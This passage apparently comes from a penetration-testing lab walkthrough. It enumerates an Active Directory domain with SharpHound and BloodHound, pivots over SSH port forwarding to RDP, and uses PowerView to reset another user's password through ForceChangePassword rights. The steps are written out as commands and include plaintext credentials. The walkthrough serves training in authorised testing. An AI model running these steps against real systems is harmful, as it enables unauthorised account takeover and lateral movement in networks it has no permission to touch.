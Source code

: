 
        We'll use the SharpHound collector to enumerate all possible AD objects and then ingest the data into the BloodHound GUI for review. We can download the executable (though in a real-world assessment, it's best to compile our own tools) and use the handy DNN file manager to upload it to the target. We want to gather as much data as possible and don't have to worry about evasion, so we'll use the -c All flag to use all collection methods.

        c:\DotNetNuke\Portals\0> SharpHound.exe -c All

        This will generate a tidy Zip file that we can download via the DNN file management tool again . Next, we can start the neo4j service (sudo neo4j start), type bloodhound to open the GUI tool, and ingest the data.

        Searching for our user hporter and selecting First Degree Object Control, we can see that the user has ForceChangePassword rights over the ssmalls user.

        As an aside, we can see that all Domain Users have RDP access over the DEV01 host. This means that any user in the domain can RDP in and, if they can escalate privileges, could potentially steal sensitive data such as credentials. This is worth noting as a finding; we can call it Excessive Active Directory Group Privileges and label it medium-risk. If the entire group had local admin rights over a host, it would definitely be a high-risk finding.

        We can use PowerView to change the ssmalls user's password. Let's RDP to the target after checking to ensure the port is open. RDP will make it easier for us to interact with the domain via a PowerShell console, though we could still do this via our reverse shell access.

        To achieve this, we can use another SSH port forwarding command, this type Local Port Forwarding. The command allows us to pass all RDP traffic to DEV01 through the dmz01 host via local port 13389.

        ssh -i dmz01_key -L 13389:172.16.8.20:3389 root@10.129.203.111

        Once this port forward is set up, we can use xfreerdp to connect to the host using drive redirection to transfer files back and forth easily.

        xfreerdp /v:127.0.0.1:13389 /u:hporter /p:Gr8hambino! /drive:home,"/home/tester/tools"


        We notice that we only get console access as this server does not have the the Desktop Experience role installed, but all we need is a console. We can type net use to view the location of our redirected drive and then transfer the tool over.

        c:\DotNetNuke\Portals\0> net use

        c:\DotNetNuke\Portals\0> copy \\TSCLIENT\home\PowerView.ps1 .

        Next, type powershell to drop into a PowerShell console, and we can use PowerView to change the ssmalls user's password as follows:
        
        PS C:\DotNetNuke\Portals\0> Import-Module .\PowerView.ps1

        PS C:\DotNetNuke\Portals\0> Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Str0ngpass86!' -AsPlainText -Force ) -Verbose


        We can switch back to our attack host and confirm that the password was changed successfully. Generally, we would want to avoid this type of activity during a penetration test, but if it's our only path, we should confirm with our client. Most will ask us to proceed so they can see how far the path will take us, but it's always best to ask. We want to, of course, note down any changes like this in our activity log so we can include them in an appendix of our report.
